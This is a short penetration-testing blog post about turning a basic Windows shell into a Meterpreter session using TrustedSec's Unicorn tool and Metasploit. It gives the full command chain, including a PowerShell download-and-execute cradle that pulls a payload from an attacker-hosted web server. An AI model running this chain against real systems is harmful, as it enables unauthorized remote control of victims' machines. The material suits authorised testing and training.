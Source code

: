 ```yaml
---
layout: post
title:  "Convert Normal Shell Into Meterpreter Shell Using Unicorn (By TrustedSec)"
date:   2020-03-1 05:14:34 +0530
categories: redteam ctf
---
```


When I'm doing pentesting the first thing I do when get a normal shell in windows is getiing the meterpreter shell. Meterpreter shell is way more easier to work with
and have advanced capebilities like searching privilage escallation possibilities, etc...

In this post I'm discussing about how to convert normal shell into meterpreter shell. To do this task I'm using a tool called 
[Unicorn](https://github.com/trustedsec/unicorn) developed by TrustedSec.
This tool is very handy when you have a firewall in the other end.

In this example I have a normal shell access to the host 10.10.10.11


## Generate payload using unicorn.py
```
python unicorn.py <attacker-ip> <attacker-port>
```

The tool generates two files 
1. unicorn.rc.
2. powershell_attack.txt.

## Run the unicorn rc with metesploit
```
msfconsole -r unicorn.rc
```

## Edit the powershell attack file to remove everything except the payload within double quotes.


## Run SimpleHTTPServer
```
python -m SimpleHTTPServer
```

## Download and execute the hosted file using powershell
```
powershell "IEX(New-Object Net.WebClient).downloadString('http://<attacker-ip>:8000/attack.html')"
```

If everything is done properly now you can see the attack.html page is requested by the victim,


and finally in the msfconsole you should see the meterpreter session.
